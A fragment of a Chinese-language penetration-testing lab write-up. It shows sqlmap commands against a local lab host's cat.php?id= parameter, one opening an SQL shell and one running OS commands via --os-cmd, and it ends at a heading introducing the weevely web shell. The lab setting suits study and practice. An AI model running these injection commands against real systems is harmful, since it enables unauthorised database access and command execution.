 - `sqlmap -u "http://192.168.56.101/cat.php?id=1" --sql-shell`,使用shell,和mysql进行交互<br>![](sqlmap9.png)


- 由于提权失败,无法执行系统命令,如果是root权限,可以使用`sqlmap -u "http://192.168.56.101/cat.php?id=1" --os-cmd=`命令执行系统命令.

---

### weevely初体验
